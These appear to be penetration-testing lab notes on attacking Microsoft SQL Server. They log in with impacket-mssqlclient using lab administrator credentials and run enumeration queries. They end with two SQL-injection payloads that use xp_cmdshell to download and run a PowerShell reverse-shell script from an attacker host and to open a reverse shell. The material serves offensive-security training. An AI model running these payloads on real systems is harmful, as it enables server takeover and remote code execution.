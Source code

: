 natively integrates into windows ecosystem
builtin command line tool SQLCMD
from kali using impacket-mssqlclient
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;

```
'EXEC xp_cmdshell "powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.241:9090/rev.ps1')"; --
'EXEC xp_cmdshell "powershell Invoke-PowerShellTcp -Reverse -IPAddress 192.168.45.241 -Port 4444"; --
```